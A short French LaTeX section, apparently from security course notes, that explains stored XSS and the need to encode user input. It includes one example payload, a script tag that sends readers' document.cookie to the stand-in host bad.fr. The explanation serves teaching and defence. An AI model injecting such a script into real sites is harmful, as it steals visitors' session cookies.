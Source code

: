 \section{Stored XSS (persistante)  }




\subsection{Description}

Dans ce type d'attaque avec persistance, les données fournies par l'utilisateur sont enregistrées sur le serveur pour ensuite être réaffichées sans que les caractères spéciaux HTML aient été encodés. Ce type de site web sont dits vulnérables aux attaques XSS. On parle improprement de faille XSS en confondant l'attaque et la vulnérabilité. Une seule injection permet d'atteindre un grand nombre de victimes sans avoir à recourir à l'ingénierie sociale. Il est donc primordial que toutes les données reçues par l'application web soient encodées.


\paragraph{Exemple de stored XSS :} 
Un cracker écrit un post sur le blog d'un site vulnérable, le contenu ci-dessous :
\begin{verbatim}
blablabla. <script>location.href='http://bad.fr/?cookie='+document.cookie</script>
\end{verbatim}
L'attaquant récupèrera les valeurs des cookies de tous les futurs lecteurs de son poste.
La figure~\ref{stored_xss} illustre ce principe dans le cas général.

\begin{figure}[!h]
	\begin{center}
		\includegraphics[scale=\scalekad]{images/xss/stored_xss}
		\caption{Attaque Stored XSS }		
		\label{stored_xss}
	\end{center}
\end{figure}












